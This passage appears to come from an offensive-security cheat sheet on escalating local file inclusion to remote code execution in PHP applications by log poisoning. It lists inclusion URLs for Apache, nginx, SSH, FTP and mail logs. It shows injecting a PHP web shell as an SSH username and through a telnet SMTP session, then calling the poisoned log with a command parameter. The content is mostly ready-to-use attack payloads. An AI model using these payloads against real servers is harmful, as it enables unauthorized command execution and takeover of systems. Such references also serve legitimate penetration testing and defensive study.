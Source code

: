 Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```powershell
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```


### RCE via SSH

Try to ssh into the box with a PHP code as username `<?php system($_GET["cmd"]);?>`.

```powershell
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

Then include the SSH log files inside the Web Application.

```powershell
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```


### RCE via Mail

First send an email using the open SMTP then include the log file located at `http://example.com/index.php?page=/var/log/mail`.

```powershell
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```
